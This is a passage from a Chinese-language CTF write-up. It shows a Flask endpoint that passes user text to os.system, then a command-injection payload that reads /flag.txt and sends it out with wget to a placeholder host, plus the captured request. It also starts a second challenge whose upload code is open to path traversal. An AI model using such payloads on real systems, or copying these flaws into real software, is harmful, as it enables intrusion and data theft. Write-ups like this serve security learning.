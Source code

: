 ```python
    filename = "".join(random.choices(chars,k=8)) + ".png"
    os.system(f"python3 generate.py {filename} \"{text}\"")
    return redirect(url_for('static', filename='images/' + filename), code=301)
  
if __name__ == "__main__":
  app.run("0.0.0.0",1002)
```

此时可以看出有一个参数可控，只需要传入 text 即可进行 RCE。构造出如下载荷读取文件 /flag.txt 并使用 wget 带出，靶机似乎没有 curl。

```bash
$(cat /flag.txt | xargs -I{} wget "http://HOST/?flagis-{}")
```

载荷发送后在监听端可以得到如下请求数据，即得到 flag。

```http
GET /?flagis-rarctf{b451c-c0mm4nd_1nj3ct10n_f0r-y0u_4nd_y0ur-l3m0nth1nk3rs_d8d21128bf} HTTP/1.1
Host: 8.136.8.210:3255
User-Agent: Wget
Connection: close
```

```flag
rarctf{b451c-c0mm4nd_1nj3ct10n_f0r-y0u_4nd_y0ur-l3m0nth1nk3rs_d8d21128bf}
```

#### Secure Uploader

> A new secure, safe and smooth uploader!

题目所给出的上传和访问路由的代码如下。

```python
@app.route('/upload', methods=['POST'])
def upload():
    if 'file' not in request.files:
        return redirect('/')
    file = request.files['file']
    if "." in file.filename:
        return "Bad filename!", 403
    conn = db()
    cur = conn.cursor()
    uid = uuid.uuid4().hex
    try:
        cur.execute("insert into files (id, path) values (?, ?)", (uid, file.filename,))
    except sqlite3.IntegrityError:
        return "Duplicate file"
    conn.commit()
    file.save('uploads/' + file.filename)
    return redirect('/file/' + uid)

@app.route('/file/<id>')
def file(id):
    conn = db()
    cur = conn.cursor()
    cur.execute("select path from files where id=?", (id,))
    res = cur.fetchone()
    if res is None:
        return "File not found", 404
    with open(os.path.join("uploads/", res[0]), "r") as f:
        return f.read()
```
